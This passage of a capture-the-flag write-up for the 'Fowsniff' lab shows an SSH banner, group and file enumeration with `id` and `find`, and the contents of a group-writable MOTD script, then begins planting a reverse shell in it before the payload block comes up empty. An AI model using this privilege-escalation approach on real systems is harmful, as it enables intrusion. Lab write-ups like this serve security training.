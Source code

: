 ```
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ 
```
### No answer needed

&nbsp;

### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
- We can check which group the `baksteen` user belongs to using the following command:
```
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
- As we can see `baksteen` belongs to the `users` group.
- Now, let's find the files that can be run by the `users` group.
```
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
```
### No answer needed

&nbsp;

### Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?
- Let's check what the file does.
```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
- We can include the reverse shell that was provided to us with a few modifications:
```
```